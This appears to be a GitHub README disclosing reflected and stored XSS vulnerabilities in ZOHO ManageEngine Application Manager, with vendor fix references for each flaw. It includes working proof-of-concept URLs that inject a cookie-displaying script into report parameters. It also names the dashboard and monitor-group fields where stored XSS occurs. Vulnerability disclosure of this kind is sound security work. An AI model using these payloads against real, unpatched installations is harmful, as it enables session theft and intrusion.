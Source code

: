 # ManageEngine-Application-Manager-XSS-POC
ZOHO Manage Engine Application Manager - XSS POC

### Reflected XSS in ManageEngine Application Manager (13 Build 13970) and prior 
```
https://@IP//showReports.do?actionMethod=generateGlanceReport&period=0&Report=true&resourceType=<script>alert(document.cookie)</script>
```

#### Fix Reference 
* https://www.manageengine.com/products/applications_manager/issues.html#v13980

### Stored XSS in ManageEngine Application Manager (13 Build 13970) and prior 
This version of Application Manager is vulnerable to a stored XSS via the "name" field in the "New Dashboard" and "New Business Dashboards" creation screens that'll be reflected in the "title" of the dashboards.

```
https://@IP/MyPage.do?method=viewDashBoard
```

It's also vulnerable to a stored XSS reflected in the "showapplication" page via the "name" and "description" fields when creating/modifying a monitor group.

#### Fix Reference 
* https://www.manageengine.com/products/applications_manager/issues.html#v13980

### Reflected XSS in ManageEngine Application Manager (13 Build 13980) and prior
The "resourceid" parameter is not santized and is reflecting any code being sent.
```
http://@IP/showReports.do?actionMethod=generateMttrAvailablityReport&resourceid=<script>alert(document.cookie)</script>&period=0&Report=true&resourceType=Monitors
```

#### Fix Reference
* https://www.manageengine.com/products/applications_manager/issues.html#v13990
